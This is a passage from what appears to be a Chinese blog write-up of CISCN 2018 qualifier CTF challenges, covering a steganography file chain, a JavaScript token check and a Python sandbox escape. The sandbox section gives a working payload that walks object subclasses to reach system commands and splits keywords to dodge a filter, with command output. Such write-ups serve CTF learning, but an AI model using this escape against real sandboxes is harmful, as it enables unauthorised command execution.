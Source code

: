 ```yaml
---
layout: post
title: CISCN 2018 初赛 Write-up
date: 2018-05-28 15:25:24.000000000 +08:00
categories:
  - writeup
tags: 
  - ciscn
---
```


多年不更新，趁有时间整理一下最近比赛的writeup.

虽然是饱受诟病的国赛和永远做不了的选择题，虽然题目有点乱，但是。。。毕竟是国赛嘛，还是得认真打

(知乎传送门)[https://www.zhihu.com/question/275155066]  结合知乎食用 风味更佳

## Web

### Easyweb

。。。找了半天的注入点发现是空密码我会告诉你？

### Picture

下载到的 PNG（实际是 JPG）尾部添加了 zlib 数据。

binwalk –e 提取之，发现是 base64 编码；解码之，获得一个文件头是“4B 50”的文件。

修改为“50 4B”，发现是压缩包，提示密码是“ZeroDivisionError: …………”
用 python 被零除的默认错误信息实验（integer division or modulo by zero）（感谢某lth大佬提供脑洞），成功解压

解压出的文件是 uuencoded，uudecode 之，获得 flag

### Flag_in_your_head 

Js 实际是 MD5 实现，但 binl 中添加了一个 ck 函数 

```javascript
function ck(s) {
    try {
        ic
    } catch (e) {
        return;
    }
    var a = [118, 104, 102, 120, 117, 108, 119, 124, 48,123,01,121];
    if (s.length == a.length) {
        for (i = 0; i < s.length; i++) {
            if (a[i] - s.charCodeAt(i) != 3)
                return ic = false;
        }
        return ic = true;
    }
    return ic = false;
} 
```

显而易见，将 A 的各元素 ASCII-3，获得 Token：*security-xbv*。传入，获得 flag.

## Misc

### Run

比较典型的 Python 沙盒逃逸。
首先先用 object 基类的__subclasses__子类内的 file 子类，可以构成文件读取：

```python
    [].__class__.__base__.__subclasses__()[40]('/home/ctf/sandbox.py')
```

虽然不能直接 getshell，注意到退出时的错误信息 leak 出文件名，可以读取到源码。

此时的直接想法是利用 warnings.catch_warnings 类 linecache 引入的 os 模块，执行系统命
令；但是 func_globals 被 ls 规则过滤，故使用如下 payload:

```python
    >>> p = ‘func_global’ + ‘s’
    >>> o = [].__class__.__base__.__subclasses__()[59].__init__.__func__.__getattribute__(p)['linecache'].__dict__.values()[12].__dict__.values()[144]
    >>> c = ‘l’ + ‘s /home/ctf/’
    >>> o(c)
    5c72a1d444cf3121a5d25f2db4147ebb
    bin
    cpython.py
    cpython.pyc
    sandbox.py
    >>> c = 'ca' + 't /home/ctf/5c72a1d444cf3121a5d25f2db4147ebb'
    >>> o(c)
    ciscn{62a20588ef9766b418537c763366ea0c}
```

## RE
### 
